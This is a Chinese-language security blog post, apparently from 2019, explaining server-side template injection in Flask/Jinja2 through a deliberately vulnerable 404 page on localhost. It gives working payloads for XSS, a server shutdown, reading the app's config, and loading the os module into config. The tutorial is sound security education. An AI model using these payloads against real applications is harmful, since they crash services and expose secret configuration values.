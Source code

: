 ```yaml
---
layout: post
title: "SSTI的服务端模版注入"
subtitle: "Flask && Jinja2中的服务端模版注入"
date: 2019-01-12
author: ppbibo
category: security
finished: true
---
```

[TOC]

## Flask/Jinja2中的服务端模版注入

如果你还没听说过SSTI(服务端模版注入)，或者对其还不够了解，在此之前建议去阅读一下James Kettle写的一篇[文章](http://blog.portswigger.net/2015/08/server-side-template-injection.html)问题出在开发者定义一个404错误页面，该开发者选择使用字符串格式化将URL动态添加到模版字符串中并返回到页面中，用户对模板是可控的。



## 正文

定义一个错误页面

定义了一个模板字符串

使用格式化字符串的方式将URL动态添加到模版字符串中并返回在页面上

用户对模板是可控的

![img](/static/img/a0.png) 

![img](/static/img/a1.png) 

### 触发一个xss

[http://127.0.0.1:5000/aalert(1)](http://127.0.0.1:5000/aalert(1))

![img](/static/img/a2.png) 

**Jinjan2 基础语法**

```Jinjan2 
{%...%}     #运行Jinja2的语句；

{{…}}       #在页面中打印Jinja2运行的结果

{#...#}      #注释
```



### 模版引擎成功解析

[http://127.0.0.1:5000/a{](http://127.0.0.1:5000/aalert(1)){2+2}}

![img](/static/img/a3.png) 

### 鸡肋拒绝服务攻击

```Jinjan2
Flask下有一个 request 内置的全局对象

{{ request.environ['werkzeug.server.shutdown']() }}

request.environ  对象是一个与服务器环境相关的对象字典

request.environ	 字典中一个名为shutdown_server的方法名分配的键为   ['werkzeug.server.shutdown']()    关闭服务器。

[http://127.0.0.1:5000/a{](http://127.0.0.1:5000/aalert(1)){ request.environ['werkzeug.server.shutdown']() }}


```

 

### 获取配置项目信息

```
config也是Flask模版中的一个全局对象

它包含了所有应用程序的配置值

{{ config.items() }}		查看配置项目的信息 	

http://127.0.0.1:5000/a{{ config.items() }}

配置项目信息的概念：

[http://www.pythondoc.com/flask/config.html](
```

http://www.pythondoc.com/flask/config.html)

![img](/static/img/a4.png) 

![img](/static/img/a6.png) 

```python
config是一个类字典对象，它的子类包含很多方法：from_envvar, from_object, from_pyfile, root_path

Flask/config.py

def from_object(self, obj):   
```

![img](/static/img/a5.png) 

```text
B. from_object  遍历新加模块中的所有大写的变量的属性并添加属性 

C. 并且这些添加到config对象的属性都会维持他们本来的类型

D. 验证：我们将 {{ config.items() }} 注入到存在SSTI漏洞的应用中，注意当前配置条目

E. 注入  {{ config.from_object('os') }}。这会向config对象添加os库中所有大写变量的属性

F. 再次查看  {{ config.items() }}     ;    os 模块中大写变量的属性成功添加属性
```

 

 参考：

http://www.freebuf.com/articles/web/98619.html
